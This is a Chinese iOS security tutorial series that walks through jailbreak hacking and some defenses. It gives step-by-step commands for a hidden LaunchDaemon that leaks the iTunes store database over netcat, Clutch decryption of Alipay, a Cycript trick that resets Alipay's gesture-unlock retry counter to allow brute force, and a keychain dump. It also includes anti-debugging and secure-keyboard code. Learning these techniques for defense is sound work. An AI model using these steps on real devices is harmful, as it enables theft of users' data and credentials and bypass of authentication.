



# iOS安全攻防


# 目录


* [iOS安全攻防（一）：Hack必备的命令与工具](#markdown-af01)

* [iOS安全攻防（二）：后台daemon非法窃取用户iTunesstore信息](#markdown-af02)

* [iOS安全攻防（三）：使用Reveal分析他人app](#markdown-af03)

* [iOS安全攻防（四）：阻止GDB依附](#markdown-af04)
* [iOS安全攻防（五）：使用Cycript修改支付宝app运行时](#markdown-af05)
* [iOS安全攻防（六）：使用class-dump-z分析支付宝app](#markdown-af06)
* [iOS安全攻防（七）：Hack实战——解除支付宝app手势解锁错误次数限制](#markdown-af07) 
* [iOS安全攻防（八）：键盘缓存与安全键盘](#markdown-af08) 
* [iOS安全攻防（九）：使用Keychain-Dumper导出keychain数据](#markdown-af09) 
* [iOS安全攻防（十）：二进制和资源文件自检](#markdown-af10) 


### <a name="markdown-af01"></a>iOS安全攻防（一）：Hack必备的命令与工具


你的应用正在被其他对手反向工程、跟踪和操作！你的应用是否依旧裸奔豪不防御？
 
郑重声明一下，懂得如何攻击才会懂得如何防御，一切都是为了之后的防御作准备。废话少说，进入正题。
 
今天总结一下为hack而做的准备工作。
 
常用的命令和工具
ps 	        ——显示进程状态，CPU使用率，内存使用情况等

sysctl       ——检查设定Kernel配置

netstat     ——显示网络连接，路由表，接口状态等

route        ——路由修改

renice       ——调整程序运行的优先级

ifconfig    ——查看网络配置

tcpdump   ——截获分析网络数据包

lsof           ——列出当前系统打开的文件列表，别忘记一切皆文件，包括网络连接、硬件等

otool ①     ——查看程序依赖哪些动态库信息，反编代码段……等等等等

nm ②        ——显示符号表

ldid ③      ——签名工具

gdb          ——调试工具

patch       ——补丁工具

SSH         ——远程控制
 
备注：
① otool，可查看可执行程序都链接了那些库：

`
otool  -L WQAlbum 
 `
 
可以得到：
WQAlbum:
	/System/Library/Frameworks/StoreKit.framework/StoreKit (compatibility version 1.0.0, current version 1.0.0)
	/System/Library/Frameworks/AdSupport.framework/AdSupport (compatibility version 1.0.0, current version 1.0.0)
	/usr/lib/libz.1.dylib (compatibility version 1.0.0, current version 1.2.5)
	/System/Library/Frameworks//MediaPlayer.framework/MediaPlayer (compatibility version 1.0.0, current version 1.0.0)
	/System/Library/Frameworks/MobileCoreServices.framework/MobileCoreServices (compatibility version 1.0.0, current version 40.0.0)
	/System/Library/Frameworks/CoreMedia.framework/CoreMedia (compatibility version 1.0.0, current version 1.0.0)
……
 
可以反编译WQAlbum的__TEXT__段内容, 截前10行：

`
otool -tV WQAlbum |head -n 10 
` 
 
 
可以得到：
WQAlbum:
(__TEXT,__text) section
start:
00002de0	pushl	$0x00
00002de2	movl	%esp,%ebp
00002de4	andl	$0xf0,%esp
00002de7	subl	$0x10,%esp
00002dea	movl	0x04(%ebp),%ebx
……
 
② nm，显示程序符号表，用我自己的应用程序私人相册现身说法一下：

`
nm -g WQAlbum  （ -g 代表 global） 
 `
 
可以得到：
001e5eec S _OBJC_IVAR_$_WQPhotoViewController.albumObject
001e5efc S _OBJC_IVAR_$_WQPhotoViewController.int_current
001e5f00 S _OBJC_IVAR_$_WQPhotoViewController.int_total
 
其中，WQPhotoViewController为类名，albumObject为该类的成员
 
③ ldid，是iPhoneOS.platform提供的签名工具，我们自己编译的程序需要签上名才能跑在iPhone/iPad上，使用方法

`export CODESIGN_ALLOCATE=/Applications/Xcode.app/Contents/Developer/Platforms/iPhoneOS.platform/Developer/usr/bin/codesign_allocate
`

`
ldid -S helloworld 
`
 
编译Hello world
 
1.首先找到编译器：
arm-apple-darwin10-llvm-gcc-4.2 就是了。
 
为了方便起见，可以在.bashrc或者profile 配置下环境变量，方便编译。
 
2.找到SDK 
编译我们自己的程序的时候需要指定该目录下的SDK。
 
3.来个经典Hello world ：

    #include <stdio.h>                                                                                              
    int main(){   
           printf("Hello world !!!\n");   
           return 0;   
    }   

 
4.编译
 
其中 -isysroot用来指定build时的SDK
 
5.校验 
 
file查看一下类型，没问题。
 
6.SCP给iPhone、iPad
前提是，设备已经越狱并且安装了SSH,且必须在同一网段。

`
$scp helloworld root@x.x.x.x:hello world
 `
 
7.登录设备签名

```
$ssh -l root x.x.x.x
#ldid -S helloworld
```
 
8.执行程序

```
#./helloworld
```
Hello world !!!
 
运行成功，这就完成了最简单的手动执行自己的应用程序。
 
### <a name="markdown-af02"></a>iOS安全攻防（二）：后台daemon非法窃取用户iTunesstore信息


> 本人郑重声明：并不鼓励窃取用户隐私等行为，一切hack学习都只是为了研究如何防御。OK，进入正题。
 
#### 开机自启动
 
在iOS安全攻防（一）：Hack必备的命令与工具中，介绍了如何编译自己的C程序并手动启动。今天介绍如何使程序变为开机自启动。
 
1.首先打开Xcode创建一个plist属性文件，如下图所示：
 
其中要注意一下通信服务名，我定为55。用编辑器打开，即为：

    <?xml version="1.0" encoding="UTF-8"?>   
    <!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">   
    <plist version="1.0">   
    <dict>   
        <key>Program</key>   
        <string>/usr/bin/ncdemo</string>   
        <key>StandardErrorPath</key>   
        <string>/dev/null</string>   
        <key>SessionCreate</key>   
        <true/>   
        <key>ProgramArguments</key>   
        <array>   
            <string>/usr/bin/ncdemo</string>   
        </array>   
        <key>inetdCompatibility</key>   
        <dict>   
            <key>Wait</key>   
            <false/>   
        </dict>   
        <key>Sockets</key>   
        <dict>   
            <key>Listeners</key>   
            <dict>   
                <key>SockServiceName</key>   
                <string>55</string>   
            </dict>   
        </dict>   
    </dict>   
    </plist>   

 
最后，将plist文件 scp 至 root@192.168.1.114:/System/Library/LaunchDaemons/ 下 .

编写读取iTunesstore数据库程序
读取itunesstored2.sqlitedb信息，并输出到stdout中，便于我们读取。

    #include <stdio.h>   
    #include <fcntl.h>   
    #include <stdlib.h>   
       
    #define FILE "/var/mobile/Library/com.apple.itunesstored/itunesstored2.sqlitedb"   
       
    int main(){   
        int fd = open(FILE, O_RDONLY);   
        char buf[128];   
        int ret = 0;   
           
        if(fd < 0)   
            return -1;   
        while (( ret = read(fd, buf, sizeof(buf))) > 0){   
            write( fileno(stdout), buf, ret);   
        }   
        close(fd);   
        return 0;   
    }   

 编译、拷贝、签名
1.编译方法上篇文章已经介绍清楚，这里不再重复，直接￥%￥＃%￥……%＃ 生成运行在ARM的 ncdemo 
 
2.将ncdemo scp 到设备中，并登录

```
$ scp ncdemo root@192.168.1.114:ncdemo
$ ssh root@192.168.1.114
```
 
3.签名

```
#ldid -S ncdemo
#mv ncdemo /usr/bin
```

抓取 iTunesstore 数据信息
这时，我们只需要利用netcat，指定之前定义的服务名称，轻松在本地抓取设备 iTunesstore 信息.

```
$ nc 192.168.1.114 55 > itunesstored2.sqlitedb
```
 
分析 iTunesstore 数据信息
好吧，这里就介绍个最简单的应用，利用string命令查看：

```
$ strings itunesstored2.sqlitedb 
```
 
于是乎，我们就清晰的得到了iPhone /iPad 设备上都安装了哪些app ：





### <a name="markdown-af03"></a>iOS安全攻防（三）：使用Reveal分析他人app


####准备工作

1）已越狱的设备，并且已安装了OpenSSH,MobileSubstrate等实用工具(Cydia源里安装)

2）本地已安装了Reveal

 

####操作步骤

1）拷贝framework和dylib到越狱机

scp -r /Applications/Reveal.app/Contents/SharedSupport/iOS-Libraries/Reveal.framework root@192.168.0.X:/System/Library/Frameworks

scp /Applications/Reveal.app/Contents/SharedSupport/iOS-Libraries/libReveal.dylib root@192.168.0.X:/Library/MobileSubstrate/DynamicLibraries

 

2）编辑libReveal.plist

a.可以ssh登录到越狱机上，并且越狱机已安装了编辑器工具例如nano，在/Library/MobileSubstrate/DynamicLibraries/下创建文件libReveal.plist，指定app的Bundle，可以指定多个

    {    
        Filter = {   
             Bundles = ("com.apple.AppStore");    
        };    
    }   

 b.也可以在本地创建好libReveal.plist在scp到指定位置/Library/MobileSubstrate/DynamicLibraries/下

 

3）重启越狱机

a.执行 killall SpringBoard

b.也可以重启设备

然后就可以到Reveal看看别人的app怎么布局的了，苹果的appstore：


### <a name="markdown-af04"></a>iOS安全攻防（四）：阻止GDB依附

GDB是大多数hackers的首选，阻止GDB依附到应用的常规办法是：

```
    #import <sys/ptrace.h>  
      
    int main(int argc, charchar *argv[])  
    {  
    #ifndef DEBUG  
        ptrace(PT_DENY_ATTACH,0,0,0);  
    #endif  
        @autoreleasepool {  
            return UIApplicationMain(argc, argv, nil, NSStringFromClass([WQMainPageAppDelegate class]));  
        }  
    }  
```


但遗憾的是，iPhone真实的运行环境是没有sys/ptrace.h抛出的。虽然 ptrace 方法没有被抛出, 但是不用担心，我们可以通过dlopen拿到它。

dlopen： 当path 参数为0是,他会自动查找 $LD_LIBRARY_PATH,$DYLD_LIBRARY_PATH, $DYLD_FALLBACK_LIBRARY_PATH 和 当前工作目录中的动态链接库. 


```
    #import <dlfcn.h>  
    #import <sys/types.h>  
      
    typedef int (*ptrace_ptr_t)(int _request, pid_t _pid, caddr_t _addr, int _data);  
    #if !defined(PT_DENY_ATTACH)  
    #define PT_DENY_ATTACH 31  
    #endif  // !defined(PT_DENY_ATTACH)  
      
    void disable_gdb() {  
        void* handle = dlopen(0, RTLD_GLOBAL | RTLD_NOW);  
        ptrace_ptr_t ptrace_ptr = dlsym(handle, "ptrace");  
        ptrace_ptr(PT_DENY_ATTACH, 0, 0, 0);  
        dlclose(handle);  
    }  
      
    int main(int argc, charchar *argv[])  
    {  
    #ifndef DEBUG  
        disable_gdb();  
    #endif  
        @autoreleasepool {  
            return UIApplicationMain(argc, argv, nil, NSStringFromClass([WQMainPageAppDelegate class]));  
        }  
    }  
```

### <a name="markdown-af05"></a>iOS安全攻防（五）：使用Cycript修改支付宝app运行时

Cycript: Objective-JavaScript ，它懂Objective-C，也懂javascript。

 

我们能够借助Cycript使用Objective-C或者javascript ，给某个正在运行的进程的runtime发送消息。

 

本文以修改支付宝app界面为例，介绍Cycript的使用方法。

 

1）安装Cycript

到Cycript官方网站下载资源工具，然后推进已越狱的iPhone中，进行安装：

```

    dpkg -i cycript_0.9.461_iphoneos-arm.deb   
    dpkg -i libffi_1-3.0.10-5_iphoneos-arm.deb
    
```   


2）确定支付宝进程

运行支付宝app，然后获取它的进程号

```
    Primer:/ root# ps aux | grep Portal   
       
    mobile     479   0.6  4.3   590776  44956   ??  Ss    5:14PM   0:09.58 /var/mobile/Applications/8723004E-9E54-4B37-856D-86292780E958/Portal.app/Portal   
    root       497   0.0  0.0   329252    176 s000  R+    5:21PM   0:00.00 grep Portal   

```


3）Cycript钩住支付宝进程


```

Primer:/ root# cycript -p 479   
cy# 


```

4）获取当前界面的viewController并修改背景色


```
    cy# var app = [UIApplication sharedApplication]   
    @"<DFApplication: 0x16530660>"   
       
    cy# app.delegate   
    @"<DFClientDelegate: 0x165384d0>"   
       
    cy# var keyWindow = app.keyWindow   
    @"<UIWindow: 0x1654abb0; frame = (0 0; 320 568); gestureRecognizers = <NSArray: 0x1654b190>; layer = <UIWindowLayer: 0x1654ace0>>"   
       
    cy# var rootController = keyWindow.rootViewController   
    @"<DFNavigationController: 0x1654b6c0>"   
       
    cy# var visibleController = rootController.visibleViewController   
    @"<ALPLauncherController: 0x166acfb0>"   
       
    cy# visibleController.childViewControllers   
    @["<HPHomeWidgetGroup: 0x166afbc0>","<ADWRootViewController: 0x165745c0>","<ALPAssetsRootViewController: 0x16577250>","<SWSecurityWidgetGroup: 0x166bd940>"]   
       
    cy# var assetsController = new Instance(0x16577250)   
    @"<ALPAssetsRootViewController: 0x16577250>"   
       
    cy# assetsController.view.backgroundColor = [UIColor blueColor]   
    @"UIDeviceRGBColorSpace 0 0 1 1"   
   
   

```



 当然，只是修改个背景色好没意思……   
 
 
### <a name="markdown-af06"></a>iOS安全攻防（六）：使用class-dump-z分析支付宝app

为了了解支付宝app的源码结构，我们可以使用class-dump-z工具来分析支付宝二进制。

 

1.下载配置class_dump_z

前往 https://code.google.com/p/networkpx/wiki/class_dump_z ，下载tar包，然后解压配置到本地环境

    $ tar -zxvf class-dump-z_0.2a.tar.gz   
    $ sudo cp mac_x86/class-dump-z /usr/bin/   

 

2.class_dump支付宝app

    $ class-dump-z Portal > Portal-dump.txt   
       
    @protocol XXEncryptedProtocol_10764b0   
    -(?)XXEncryptedMethod_d109df;   
    -(?)XXEncryptedMethod_d109d3;   
    -(?)XXEncryptedMethod_d109c7;   
    -(?)XXEncryptedMethod_d109bf;   
    -(?)XXEncryptedMethod_d109b8;   
    -(?)XXEncryptedMethod_d109a4;   
    -(?)XXEncryptedMethod_d10990;   
    -(?)XXEncryptedMethod_d1097f;   
    -(?)XXEncryptedMethod_d10970;   
    -(?)XXEncryptedMethod_d10968;   
    -(?)XXEncryptedMethod_d10941;   
    -(?)XXEncryptedMethod_d10925;   
    -(?)XXEncryptedMethod_d10914;   
    -(?)XXEncryptedMethod_d1090f;   
    -(?)XXEncryptedMethod_d1090a;   
    -(?)XXEncryptedMethod_d10904;   
    -(?)XXEncryptedMethod_d108f9;   
    -(?)XXEncryptedMethod_d108f4;   
    -(?)XXEncryptedMethod_d108eb;   
    @optional   
    -(?)XXEncryptedMethod_d109eb;   
    @end   

查看得到的信息是加过密的，这个加密操作是苹果在部署到app store时做的，所以我们还需要做一步解密操作。

 

3.使用Clutch解密支付宝app

1）下载Clutch

iOS7越狱后的Cydia源里已经下载不到Clutch了，但是我们可以从网上下载好推进iPhone

地址：Clutch传送门

 

2）查看可解密的应用列表

    root# ./Clutch    
       
    Clutch-1.3.2   
    usage: ./Clutch [flags] [application name] [...]   
    Applications available: 9P_RetinaWallpapers breadtrip Chiizu CodecademyiPhone FisheyeFree food GirlsCamera IMDb InstaDaily InstaTextFree iOne ItsMe3 linecamera Moldiv MPCamera MYXJ NewsBoard Photo Blur Photo Editor PhotoWonder POCO相机 Portal QQPicShow smashbandits Spark tripcamera Tuding_vITC_01 wantu WaterMarkCamera WeiBo Weibo     

 

3）解密支付宝app

    root# ./Clutch Portal   
       
    Clutch-1.3.2   
    Cracking Portal...   
    Creating working directory...   
    Performing initial analysis...   
    Performing cracking preflight...   
    dumping binary: analyzing load commands   
    dumping binary: obtaining ptrace handle   
    dumping binary: forking to begin tracing   
    dumping binary: successfully forked   
    dumping binary: obtaining mach port   
    dumping binary: preparing code resign   
    dumping binary: preparing to dump   
    dumping binary: ASLR enabled, identifying dump location dynamically   
    dumping binary: performing dump   
    dumping binary: patched cryptid   
    dumping binary: writing new checksum   
    Censoring iTunesMetadata.plist...   
    Packaging IPA file...   
       
    compression level: 0   
        /var/root/Documents/Cracked/支付宝钱包-v8.0.0-(Clutch-1.3.2).ipa   
       
    elapsed time: 7473ms   
       
    Applications Cracked:    
    Portal   
       
    Applications that Failed:   
       
    Total Success: 1 Total Failed: 0   

 

4）导出已解密的支付宝app

从上一步骤得知，已解密的ipa位置为：/var/root/Documents/Cracked/支付宝钱包-v8.0.0-(Clutch-1.3.2).ipa

将其拷贝到本地去分析

 

4.class_dump已解密的支付宝app

解压.ipa后，到 支付宝钱包-v8.0.0-(Clutch-1.3.2)/Payload/Portal.app 目录下，class_dump已解密的二进制文件

    $ class-dump-z Portal > ~/Portal-classdump.txt   

这回就可以得到对应的信息了：

    @protocol ALPNumPwdInputViewDelegate <NSObject>   
    -(void)onPasswordDidChange:(id)onPassword;   
    @end   
       
    @protocol ALPContactBaseTableViewCellDelegate <NSObject>   
    -(void)shareClicked:(id)clicked sender:(id)sender;   
    @end   
       
    @interface MMPPayWayViewController : XXUnknownSuperclass <SubChannelSelectDelegate, UITableViewDataSource, UITableViewDelegate, CellDelegate, UIAlertViewDelegate> {   
    @private   
        Item* channelSelected;   
        BOOL _bCheck;   
        BOOL _bOpenMiniPay;   
        BOOL _bNeedPwd;   
        BOOL _bSimplePwd;   
        BOOL _bAutopayon;   
        BOOL _bHasSub;   
        BOOL _bFirstChannel;   
        BOOL _bChangeSub;   
        BOOL _bClickBack;   
        UITableView* _channelListTableView;   
        NSMutableArray* _channelListArray;   
        NSMutableArray* _subChanneSelectedlList;   
        NSMutableArray* _unCheckArray;   
        UIButton* _saveButton;   
        UILabel* _tipLabel;   
        MMPPasswordSwichView* _payWaySwitch;   
        MMPPopupAlertView* _alertView;   
        UIView* _setView;   
        int _originalSelectedRow;   
        int _currentSelectedRow;   
        NSString* _statusCode;   
        ChannelListModel* _defaultChannelList;   
    }   
    @property(assign, nonatomic) BOOL bClickBack;   
    @property(retain, nonatomic) ChannelListModel* defaultChannelList;   
    @property(retain, nonatomic) NSString* statusCode;   
    @property(assign, nonatomic) int currentSelectedRow;   
    @property(assign, nonatomic) int originalSelectedRow;   
    @property(retain, nonatomic) UIView* setView;   
    @property(retain, nonatomic) MMPPopupAlertView* alertView;   
    @property(retain, nonatomic) MMPPasswordSwichView* payWaySwitch;   
    @property(assign, nonatomic, getter=isSubChannelChanged) BOOL bChangeSub;   
    @property(assign, nonatomic) BOOL bFirstChannel;   
    @property(assign, nonatomic) BOOL bHasSub;   
    @property(assign, nonatomic) BOOL bAutopayon;   
    @property(assign, nonatomic) BOOL bSimplePwd;   
    @property(assign, nonatomic) BOOL bNeedPwd;   
    @property(assign, nonatomic) BOOL bOpenMiniPay;   
    @property(assign, nonatomic) BOOL bCheck;   
    @property(retain, nonatomic) UILabel* tipLabel;   
    @property(retain, nonatomic) UIButton* saveButton;   
    @property(retain, nonatomic) NSMutableArray* unCheckArray;   
    @property(retain, nonatomic) NSMutableArray* subChanneSelectedlList;   
    @property(retain, nonatomic) NSMutableArray* channelListArray;   
    @property(retain, nonatomic) UITableView* channelListTableView;   
    -(void).cxx_destruct;   
    -(void)subChannelDidSelected:(id)subChannel;   
    -(void)switchCheckButtonClicked:(id)clicked;   
    -(void)checkboxButtonClicked:(id)clicked;   
    -(void)onCellClick:(id)click;   
    -(void)showSubChannels;   
    -(void)tableView:(id)view didSelectRowAtIndexPath:(id)indexPath;   
    -(id)tableView:(id)view cellForRowAtIndexPath:(id)indexPath;   
    -(int)tableView:(id)view numberOfRowsInSection:(int)section;   
    -(float)tableView:(id)view heightForRowAtIndexPath:(id)indexPath;   
    -(int)numberOfSectionsInTableView:(id)tableView;   
    -(void)setTableViewFootView:(id)view;   
    -(void)setTableViewHeaderView:(id)view;   
    -(id)tableView:(id)view viewForHeaderInSection:(int)section;   
    -(id)tableView:(id)view viewForFooterInSection:(int)section;   
    -(float)tableView:(id)view heightForHeaderInSection:(int)section;   
    -(float)tableView:(id)view heightForFooterInSection:(int)section;   
    -(void)alertView:(id)view clickedButtonAtIndex:(int)index;   
    -(void)clickSave;   
    -(void)netWorkRequestWithPwd:(id)pwd;   
    -(void)setPayWaySwitchStates:(id)states;   
    -(void)changePayWaySwitch:(id)aSwitch;   
    -(void)scrollToSelectedRow;   
    -(void)didReceiveMemoryWarning;   
    -(void)viewDidLoad;   
    -(void)applicationEnterBackground:(id)background;   
    -(void)dealloc;   
    -(void)goBack;   
    -(BOOL)isChannelsSetChanged;   
    -(id)subChannelCode:(int)code;   
    -(id)subChannelDesc:(int)desc;   
    -(id)initWithDefaultData:(id)defaultData;   
    -(id)initWithNibName:(id)nibName bundle:(id)bundle;   
    -(void)commonInit:(id)init;   
    @end   

5.分析支付宝源码片段

1）使用了@private关键字限制成员访问权限

但是实际上，在Objective-C编程中，使用@private连Keypath访问都拦不住的

 

2）抛出了冗长的成员对象

这非常有利分析程序结构

 

6.进一步思考

1）如何利用 class-dump 结果，结合 cycript 进行攻击呢？

2）class-dump-z 如此强大，有什么方法可以减少暴露的信息吗？

### <a name="markdown-af07"></a>Hack实战——解除支付宝app手势解锁错误次数限制


之前仅仅介绍了工具的使用，本文将实践一下如何利用 cycript 结合 class-dump 结果hack，还要牺牲一下支付宝app。

 

首先，老套路，取到手势解锁界面的View Controller:

    cy# var app = [UIApplication sharedApplication]   
    @"<DFApplication: 0x1666c960>"   
    cy# var keyWindow = app.keyWindow   
    @"<UIWindow: 0x16591bd0; frame = (0 0; 320 568); gestureRecognizers = <NSArray: 0x1b047000>; layer = <UIWindowLayer: 0x165d0650>>"   
    cy# var root = keyWindow.rootViewController   
    @"<UINavigationController: 0x179779a0>"   
    cy# var visible = root.visibleViewController   
    @"<GestureUnlockViewController: 0x165de090>"   

 然后，对照class-dump-z结果，来分析 GestureUnlockViewController 有什么利用价值 ：

    @interface GestureUnlockViewController : DTViewController <UIAlertViewDelegate, GestureHeadImageViewDelegate> {   
    @private   
        GestureHeadImageView* _headImageView;   
        GestureTipLabel* _tipLabel;   
        GestureInputView* _inputView;   
        DTButton* _forgetButton;   
        DTButton* _changeAccountButton;   
        int _retryCount;   
        UIView* _guideView;   
        id<GestrueViewControllerDelegate> _delegate;   
    }   
    @property(assign, nonatomic) __weak id<GestrueViewControllerDelegate> delegate;   
    -(void).cxx_destruct;   
    -(BOOL)shouldAutorotateToInterfaceOrientation:(int)interfaceOrientation;   
    -(void)headClicked;   
    -(void)gestureInputView:(id)view didFinishWithPassword:(id)password;   
    -(void)gestureInputViewFirstEffectiveTouch:(id)touch;   
    -(void)alertView:(id)view clickedButtonAtIndex:(int)index;   
    -(void)actionChangeAccountToLogin;   
    -(void)actionResetPswBtnClick;   
    -(void)resetCurrentUser;   
    -(void)resetPsw;   
    -(void)viewWillDisappear:(BOOL)view;   
    -(void)notifyFaceToFacePayReceivedData:(id)facePayReceivedData;   
    -(void)viewWillAppear:(BOOL)view;   
    -(void)breakFirstRun;   
    -(BOOL)isFirstRun;   
    -(void)guideViewClicked:(id)clicked;   
    -(void)viewDidLoad;   
    -(void)viewWillLayoutSubviews;   
    @end   

 目测 _tipLabel 是写账户名和提示操作的label，上篇文章我提到过：@private限制不了keyPath，现在我们来修改一下支付宝登录页的用户名信息：

    cy# [visible setValue:@"Test By yiyaaixuexi" forKeyPath:@"_tipLabel.text"]   





支付宝手势密码解锁有尝试次数限制，连续错5次就要重新登录。


 

我想解除重试解锁次数的限制，发现了记录解锁次数的类型是int，int _retryCount ，这一点让我很不开心，因为我无法通过KVC来修改其值了。

 

但是没有关系，我可以通过指针访问：

    cy# visible->_retryCount = 0   
    0   

 

这样我就能无限制的用程序暴力破解手势密码了，来计算一下有多少种可能呢？

这个数字对我来说有点大，可是对iPhone5的CPU来说就是小菜一碟了～

 

等一下，密码格式是什么呢？

    -(void)gestureInputView:(id)view didFinishWithPassword:(id)password;   

id类型的密码，很严谨，又给hack带来不少麻烦呀～
 
 
### <a name="markdown-af08"></a>iOS安全攻防（八）：键盘缓存与安全键盘


大部分中文应用弹出的默认键盘是简体中文输入法键盘，在输入用户名和密码的时候，如果使用简体中文输入法键盘，输入英文字符和数字字符的用户名和密码时，会自动启动系统输入法自动更正提示，然后用户的输入记录会被缓存下来。

 

系统键盘缓存最方便拿到的就是利用系统输入法自动更正的字符串输入记录。

缓存文件的地址是：/private/var/mobile/Library/Keyboard/dynamic-text.dat

 

导出该缓存文件，查看内容，欣喜的发现一切输入记录都是明文存储的。因为系统不会把所有的用户输入记录都当作密码等敏感信息来处理。

 

一般情况下，一个常规iPhone用户的dynamic-text.dat文件，高频率出现的字符串就是用户名和密码。

 

所以，一般银行客户端app输入密码时都不使用系统键盘，而使用自己定制的键盘，原因主要有2个：

1）避免第三方读取系统键盘缓存

2）防止屏幕录制 （自己定制的键盘按键不加按下效果）

 

那么，如何实现自定义安全键盘呢？大致思路如下：

1）首先捕获系统键盘的弹出、收回通知

2）创建一个更高级别的window挡住系统键盘

3）需要抛出一个 id<UITextInput>textInput 的弱引用切换焦点

 

下面给出一个简单的安全键盘模型：

    @interface WQSafeKeyboard : UIWindow   
       
    @property (nonatomic, weak, setter = focusOnTextFiled:) UITextField *textFiled;   
    + (WQSafeKeyboard *)deploySafeKeyboard;   
    @end   
       
       
    @interface WQSafeKeyboard()   
       
    @property (nonatomic, strong)WQInterKeyboard *keyboard;   
    @end   
       
    @implementation WQSafeKeyboard   
       
    + (WQSafeKeyboard *)deploySafeKeyboard   
    {   
        WQSafeKeyboard *kb = [[WQSafeKeyboard alloc]init];   
        [kb addObserver];   
        return kb;   
    }   
       
    - (instancetype)init   
    {   
        if (self = [super init]) {   
            self.windowLevel = UIWindowLevelAlert;   
            self.frame = CGRectZero;   
            self.rootViewController = self.keyboard;   
        }   
        return self;   
    }   
       
    - (void)dealloc   
    {   
        [[NSNotificationCenter defaultCenter] removeObserver:self];   
    }   
       
    - (WQInterKeyboard *)keyboard   
    {   
        if (!_keyboard) {   
            _keyboard = [[WQInterKeyboard alloc]init];   
        }   
        return _keyboard;   
    }   
       
    - (void)focusOnTextFiled:(UITextField *)textFiled   
    {   
        _textFiled = textFiled;   
        self.keyboard.textField = _textFiled;   
    }   
       
    - (void)addObserver   
    {   
        [[NSNotificationCenter defaultCenter]addObserver:self   
                                                selector:@selector(keyboardWillShow:)   
                                                    name:UIKeyboardWillShowNotification   
                                                  object:nil];   
        [[NSNotificationCenter defaultCenter]addObserver:self   
                                                selector:@selector(keyboardWillHide:)   
                                                    name:UIKeyboardWillHideNotification   
                                                  object:nil];   
    }   
       
    - (void)keyboardWillShow:(NSNotification *)notification   
    {   
        if (![self.textFiled isFirstResponder]) {   
            return;   
        }   
        [self keyboardAnimationWithNotification:notification];   
    }   
       
    - (void)keyboardWillHide:(NSNotification *)notification   
    {   
        if (![self.textFiled isFirstResponder]) {   
            return;   
        }   
        [self keyboardAnimationWithNotification:notification];   
    }   
       
    - (void)keyboardAnimationWithNotification:(NSNotification *)notification   
    {   
        [self makeKeyAndVisible];   
        NSDictionary *userInfo = [notification userInfo];   
        CGRect kbFrame_end,kbFrame_begin;   
        NSTimeInterval animationDuration;   
        UIViewAnimationCurve animationCurve;   
        [userInfo[UIKeyboardFrameEndUserInfoKey] getValue:&kbFrame_end];   
        [userInfo[UIKeyboardFrameBeginUserInfoKey] getValue:&kbFrame_begin];   
        [userInfo[UIKeyboardAnimationCurveUserInfoKey] getValue:&animationCurve];   
        [userInfo[UIKeyboardAnimationDurationUserInfoKey] getValue:&animationDuration];   
           
        self.frame = [self resizeFrameToAdjust:kbFrame_begin];   
        [UIView animateWithDuration:animationDuration   
                              delay:0   
                            options:(animationCurve<<16)   
                         animations:^{   
                             self.frame = [self resizeFrameToAdjust:kbFrame_end];   
                         }completion:^(BOOL finished) {   
                               
                         }];   
        if ([notification.name isEqualToString:UIKeyboardWillHideNotification]) {   
            [self resignKeyWindow];   
        }   
    }   
       
    - (CGRect)resizeFrameToAdjust:(CGRect)frame   
    {   
        if ([[UIApplication sharedApplication] isStatusBarHidden] )   
            return frame;   
           
        if (SYSTEM_VERSION_LESS_THAN(@"7.0")) {   
            frame = CGRectMake(frame.origin.x,   
                               frame.origin.y - STATUSBAR_HEIGHT,   
                               frame.size.width,   
                               frame.size.height);   
        }   
        return frame;   
    }   
       
    @end   


### <a name="markdown-af09"></a>iOS安全攻防（九）：使用Keychain-Dumper导出keychain数据


iOS系统及第三方应用都会使用Keychain来作为数据持久化存储媒介，或者应用间数据共享的渠道。

 

所以Keychain数据库是hacker们最关注的数据源头之一。

 

不知道是算幸运还是不幸，导出Keychain数据库数据的工具早已非常完善，下载地址：Keychain-Dumper传送门

 

操作步骤极其简单：

1）赋予Keychain数据库可读权限

Primer:~ root# cd /private/var/Keychains/  

Primer:/private/var/Keychains root# ls  

TrustStore.sqlite3  accountStatus.plist  caissuercache.sqlite3  keychain-2.db  keychain-2.db-shm  keychain-2.db-wal  ocspcache.sqlite3  ocspcache.sqlite3-shm  ocspcache.sqlite3-wal  

Primer:/private/var/Keychains root# chmod +r keychain-2.db  

 

2）使用Keychain-Dumper导出Keychain

Primer:/private/var/Keychains root# /your_path/keychain_dumper > keychain-export.txt  

 

然后拷贝到本地查看，到底iOS系统和第三方应用都存放了哪些信息，就一览无余了。

### <a name="markdown-af10"></a>iOS安全攻防（十）：二进制和资源文件自检


我们把自己的程序发布到app store，但是不能保证每一个用户都是从app store下载官方app，也不能保证每一个用户都不越狱。

 

换句话说，我们无法保证程序运行环境在MAC管控策略下就绝对的安全。

 

